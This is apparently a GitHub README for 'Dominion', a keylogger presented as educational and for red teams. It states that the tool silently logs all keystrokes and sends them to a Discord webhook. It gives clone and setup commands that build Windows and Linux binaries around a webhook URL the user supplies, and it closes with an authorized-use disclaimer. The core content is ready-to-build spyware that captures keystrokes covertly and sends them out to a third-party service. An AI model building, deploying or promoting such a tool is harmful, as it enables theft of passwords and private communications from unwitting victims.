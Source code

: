 # Dominion

![Dominion Banner](assets/dominion_banner.png)

Dominion is a cross-platform educational keylogger for Red Teams and ethical hacking research.  
It captures keystrokes and sends logs to a private Discord channel using webhooks.

---

## Features

- Logs all keystrokes silently.
- Sends logs to a private Discord webhook.
- Supports Windows EXE (Wine) and Linux binary.
- Simple automated builder (`setup.py`).

---

## Quick Start

Clone this repository:

```bash
git clone https://github.com/HackScaleTeam/Dominion.git
cd Dominion
```

Run the setup script:

**For Windows EXE (via Wine):**
```bash
python3 setup.py --webhook YOUR_DISCORD_WEBHOOK --windows
```

**For Linux binary:**
```bash
python3 setup.py --webhook YOUR_DISCORD_WEBHOOK --linux
```

The setup script will:
- Check your environment (Wine/Python)
- Install missing dependencies
- Build the binary to `/dist/`

**Example:**
```bash
python3 setup.py --webhook https://discord.com/api/webhooks/XXXXX/YYYYY --windows
```

---

## License

MIT License — see [LICENSE](LICENSE).

---

## Disclaimer

Dominion is for **educational and authorized testing only**.  
Use it only on machines you own or have permission to test.
